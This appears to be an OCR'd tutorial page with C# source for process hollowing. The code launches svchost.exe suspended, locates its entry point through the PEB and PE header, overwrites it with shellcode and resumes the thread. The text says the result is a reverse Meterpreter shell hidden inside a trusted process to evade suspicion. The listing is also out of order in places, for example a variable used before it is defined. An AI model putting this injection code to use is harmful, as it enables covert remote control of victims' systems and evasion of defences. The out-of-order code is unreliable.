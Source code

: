 We'll create a new Console App project in Visual Studio, and name it "Hollow". We'll then find the DllImport for CreateProcessW from www.pinvoke.net, and add it to our project. To import CreateProcessW, we must also include the System.Threading namespace.
It is worth noting that a memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process, so the use of variable types, offsets, and amount of data read must be adapted.
we must remember to specify a 64-bit architecture (since svchost.exe is a 64-bit process) and change it from "debug" to "release" before compiling.

While the code and technique here only writes shellcode into the suspended process, we could also use this technique to hollow an entire compiled EXE.

      ***<comment> DllImport statement for CreateProcess<comment>***
      
      [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
      static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, 
          IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, 
              uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, 
                  [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

       ***<comment>DllImport statement for ZwQueryInformationProcess<comment>***
      
      [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
      private static extern int ZwQueryInformationProcess(IntPtr hProcess, 
          int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, 
              uint ProcInfoLen, ref uint retlen);

      ***<comment>ReadProcessMemory DllImport statement<comment>***
      
        [DllImport("kernel32.dll", SetLastError = true)]
      static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
          [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
      
      [DllImport("kernel32.dll", SetLastError = true)]
      private static extern uint ResumeThread(IntPtr hThread);

      ***<comment>Calling CreateProcess to create a suspended process<comment>***
      
      STARTUPINFO si = new STARTUPINFO();
      PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
      
      bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, 
          IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

      ***<comment>Calling ZwQueryInformationProcess to fetch PEB address<comment>***
      
      PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
      uint tmp = 0;
      IntPtr hProcess = pi.hProcess;
      ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

      ***<comment>ReadProcessMemory invocation<comment>***
      
      byte[] addrBuf = new byte[IntPtr.Size];
      IntPtr nRead = IntPtr.Zero;
      ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
      
      IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

      ***<comment>Using ReadProcessMemory to fetch the PE header<comment>***
      
      byte[] data = new byte[0x200];
      ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

      ***<comment>Parsing the PE header to locate the EntryPoint<comment>***
      
      uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
      
      uint opthdr = e_lfanew_offset + 0x28;
      
      uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
      
      IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

      ***<comment>Overwriting the EntryPoint of svchost.exe with shellcode<comment>***
      
      byte[] buf = new byte[659] {generated shell code};
      
      
      WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
      
      IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);

       ***<comment>calling ResumeThread<comment>***
       
      ResumeThread(pi.hThread);



When we execute it, the compiled code results in a reverse Meterpreter shell executing inside a svchost.exe process, possibly evading suspicion since it is a trusted process that also engages in network communications.
